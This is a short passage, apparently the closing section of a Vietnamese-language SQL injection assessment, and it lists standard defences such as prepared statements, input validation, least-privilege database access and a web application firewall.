


<a id="p8"></a>
***Recommendations***

1. Sử dụng Prepared Statements để ngăn chặn SQL Injection.
2. Implement việc lọc và kiểm tra đầu vào của người dùng.
3. Hạn chế quyền hạn của cơ sở dữ liệu.
4. Triển khai Web Application Firewall (WAF) để phát hiện và chặn các tấn công SQL Injection.